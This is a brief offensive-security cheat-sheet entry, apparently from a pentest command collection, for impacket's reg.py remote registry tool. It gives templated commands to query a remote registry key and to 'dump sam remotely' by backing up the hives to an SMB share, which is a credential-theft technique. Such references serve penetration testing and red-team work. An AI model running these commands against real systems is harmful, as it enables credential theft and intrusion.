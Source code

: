 # reg.py (imp) 

% impacket-smb-msrpc, windows, smb, msrpc

## desc
```
Remote registry manipulation tool through the [MS-RRP] MSRPC Interface
```


## reg - query registry info remotely
#plateform/linux #target/remote #cat/RECON 
```
reg.py '<domain_fqdn>/<user>:<password>'@<ip> query -keyName HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows -s
```
## reg - dump sam remotely
#plateform/linux #target/remote #cat/RECON 
```
reg.py '<domain_fqdn>/<user>:<password>'@<ip>  backup -o '<smb_share_UNC>'
```

